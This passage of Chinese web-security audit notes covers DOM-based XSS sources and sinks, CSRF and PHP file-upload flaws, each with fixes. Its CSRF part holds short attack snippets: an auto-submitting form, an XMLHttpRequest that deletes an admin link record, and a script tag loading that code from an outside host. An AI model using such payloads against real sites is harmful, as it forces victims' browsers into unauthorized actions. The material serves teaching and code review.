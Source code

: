 ### DOM型
DOM型常见属性
|输入点|输出点|
|----|----|
|document.url|eval|
|document.location|document.write|
|document.referrer|document.innterHTML|
|document.form|document.OuterHtml|
### 修复方案
+ htmlspecialchars()	&,",',<,>
> 将特殊字符转换为HTML实体
> 对所有输入中的script,iframe等字样进行严格检查
> 验证数据的类型及其格式,长度,范围和内容
> 客户端做数据的验证与过滤,关键的过滤步骤在服务端进行
> 检查输出的数据
***
## CSRF
+ javascript提交
```javascript
//自动提交表单
<script>document.forms[0].submit();</script>
```
+ XMLHTTPRequest提交
```javascript
//1.js
function del() {
    var xhr = new XMLHttpRequest();
    xhr.open('GET','/xiong/admin/?r=linklist&delete=6');
    xhr.send(null);
    }
del();
```
`<script src="http://404.com/xiong/1.js"></script> `
+ 是否有验证码
+ 是否验证了请求源(referer)
+ 是否验证token,token过期时间
***
## 文件上传漏洞
+ 关注函数
```php
move_uploaded_file ( string $filename , string $destination ) : bool
```
> filename	上传的文件的文件名。
> destination	移动文件到这个位置。
> 本函数检查并确保由 filename 指定的文件是合法的上传文件（即通过 PHP 的 HTTP POST 上传机制所上传的）。如果文件合法，则将其移动为由 destination 指定的文件。
> 文件上传只有一个函数 `move_uploaded_file()` 一般来说，我们就可以搜索这个函数来回溯，看他的验证方式，是黑名单还是白名单，是否是前端限制，是否只是简单的验证了文件头，是否是能绕过的正则匹配，是否渲染了图片
### 修复方案
> 检测文件上传内容
	> - 黑名单验证,检测文件扩展名是否合法
	> - MIME验证,检测文件的MIME类型
> 限制文件大小
> 更改临时文件夹的路径
> 读取上传文件的绝对路径与文件名称
> 隐藏文件路径
***